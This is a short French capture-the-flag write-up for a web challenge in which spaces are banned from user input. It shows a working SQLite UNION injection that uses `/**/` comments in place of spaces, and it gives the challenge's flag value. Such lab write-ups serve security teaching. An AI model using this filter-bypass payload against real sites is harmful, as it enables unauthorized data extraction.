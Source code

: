# SQL injection 9

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Bon, j'ai menti, ce n'était pas le dernier défi d'injection SQL. Le propriétaire du site web est vraiment tanné de se faire voler tous ses flags. Il reste un flag dans la colonne `flag` de la table `flag`, mais le propriétaire du site a interdit les espaces dans les champs d'input de l'utilisateur. En d'autres mots, votre injection SQL ne sera pas exécutée si elle contient des espaces. 

Maintenant que les espaces sont interdites, pouvez-vous trouver un moyen de quand même effectuer une injection SQL?

Bon succès!

## Setup

Requirements:
- BurpSuite

# Writeup

Il faut trouver un moyen d'avoir des espaces sans en utiliser. Avec SQLite, on peut insérer des espaces en utilisant `/**/` dans une requête. 

`"/**/union/**/select/**/1,2,flag/**/from/**/flag--`

On aura le flag: `FLAG-09a4a43cb073857766e62b852172f6ff`
